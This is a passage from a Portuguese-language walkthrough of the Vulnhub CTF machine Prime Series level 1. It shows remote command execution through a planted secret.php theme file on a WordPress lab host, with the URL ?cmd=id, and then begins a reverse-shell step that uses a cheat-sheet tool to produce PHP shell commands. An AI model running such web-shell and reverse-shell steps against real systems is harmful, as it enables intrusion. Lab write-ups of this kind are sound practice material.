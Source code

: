 ![](/assets/img/Vulnhub/Prime_Series_level-1/php-safado.png)


* Naquela brincadeira sem graca, no comeco do CTF, de fuzzy de diretorios achamos o endereco http://192.168.150.113/wordpress/wp-content/themes/, onde provavelmente sao armazenados os temas da aplicacao.


* Agora temos um **RCE** passando comando via URL

```
http://192.168.150.113/wordpress/wp-content/themes/twentynineteen/secret.php?cmd=id
```

![](/assets/img/Vulnhub/Prime_Series_level-1/rce-id.png)




## Shell Reverso 


* Primeiro vamos procurar, usando o rbscheat, por um comando php para nos dar um shell reverso

```bash
rbscheat -i 192.168.150.113:443 -l php
```

![](/assets/img/Vulnhub/Prime_Series_level-1/rbscheat-php.png)
